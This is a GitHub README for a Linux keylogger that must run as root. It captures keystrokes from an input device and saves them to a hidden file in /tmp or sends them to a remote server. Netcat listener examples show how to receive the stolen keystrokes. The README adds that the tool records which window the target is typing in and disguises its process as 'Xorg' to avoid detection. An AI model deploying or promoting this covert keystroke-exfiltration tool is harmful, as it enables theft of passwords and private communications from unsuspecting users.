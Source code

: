 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE:<br><br>
Server$ nc -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>

---It works also with ipv6--- <br><br>
Server$ nc -6 -lvp 8888 > logger.txt<br>
Client#./slrk -m remote -a ::1 -p 8888
__________________________________________________________________________
<br>(It shows the active window on which the target is writing)
<br>(Keys are mapped on English keyboard)<br>
(Process name is renamed as "Xorg")
